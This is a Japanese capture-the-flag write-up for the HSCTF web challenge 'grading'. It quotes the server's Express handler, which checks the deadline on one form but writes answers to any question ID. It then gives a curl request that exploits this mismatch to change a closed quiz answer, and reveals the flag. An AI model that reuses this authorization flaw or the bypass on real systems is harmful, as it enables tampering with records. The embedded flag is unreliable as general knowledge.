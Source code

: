 # grading:web:Xpts<!--X-->
Did you attend online school this year?  
Good, because you'll need to register at [grading.hsc.tf](https://grading.hsc.tf/login) and get an A on "simple quiz" to find the flag.  
Server code is attached.  
[grading-master.zip](grading-master.zip)  

# Solution
アクセスし、アカウントを登録するとテストを受けられるサイトのようだ。  
Formable  
[site1.png](site/site1.png)  
テストは二つあるが、片方は締め切りを過ぎているようだ。  
simple quiz (URL:https://grading.hsc.tf/60c8ba318c156ea0525271b0)  
[site2.png](site/site2.png)  
another simple quiz (URL:https://grading.hsc.tf/60c8ba318c156e1a895271b1)  
[site3.png](site/site3.png)  
どうやらこのsimple quizをどうにかして再受験したいらしい。  
まずは受験できるテストに`CTFCTF`と解答を入力し動作を見ると、`/60c8ba318c156e1a895271b1`に`ID=60c8ba318c156e75095271af&value=CTFCTF`をPOSTしている。  
IDはinputのnameであるようだ。  
```html
~~~
        <div class="mb-3 question">
            <label for="">What is the best CTF?</label>
            
                <input type="text"  class='active' name="60c8ba318c156e75095271af" value="CTFCTF">
             
        </div>
~~~
```
ここで配布されたソースのapp.jsを見てみる。  
```JavaScript
~~~
.post(authMW, (req, res) => {
    const now = Date.now()
    const form = req.user.forms.id(req.params.formID)
    if(now > form.deadline) {
        res.json({response: "too late"})
    } else {
        if(req.body.ID) {
            const question = req.user.questions.id(req.body.ID)
            console.log(question);
            question.submission = req.body.value
            req.user.save()
        } else {
            form.submitted = true
            req.user.save()
        }

        res.json({response: "heh"})
    }

})
~~~
```
`formID`経由で締め切りを取得しチェックした後に`ID`で問題を選択し、解答を保存している。  
つまり`formID`を現在締め切られていないもの、かつ`ID`は締め切りを過ぎたものにすれば締め切りチェックを回避できる。  
締め切りを過ぎた問題のIDは以下のようであった。  
```html
        <div class="mb-3 question">
            <label for="">What is the capital of Africa?</label>
             
                <fieldset>
                     
                        <div>
                            <input class="form-check-input" type="radio" name="60c8ba318c156e5afc5271ae" value="Venezuela"  disabled >
                            <label class="form-check-label" for="">Venezuela</label>
                        </div>
~~~
                        <div>
                            <input class="form-check-input" type="radio" name="60c8ba318c156e5afc5271ae" value="Africa is not a country"  disabled >
                            <label class="form-check-label" for="">Africa is not a country</label>
                        </div>
                     
                </fieldset>
             
        </div>
```
これを利用し以下のようなリクエストを送る(cookieは解法には関係ない)。  
```bash
$ curl -X POST https://grading.hsc.tf/60c8ba318c156e1a895271b1 -d "ID=60c8ba318c156e5afc5271ae&value=Africa is not a country" --cookie "connect.sid=s%3A9hca6KblGft22wdViRS5O09d4le1Tj4J.JAzBnOTmIm0WgfiN4OjHnH3la7xnb%2FaSFXRzMOhSayg"
{"response":"heh"}
```
simple quizにアクセスするとflagが表示されていた。  
flag  
[flag.png](site/flag.png)  

## flag{th3_an5w3r_w4s_HSCTF_0bvi0us1y}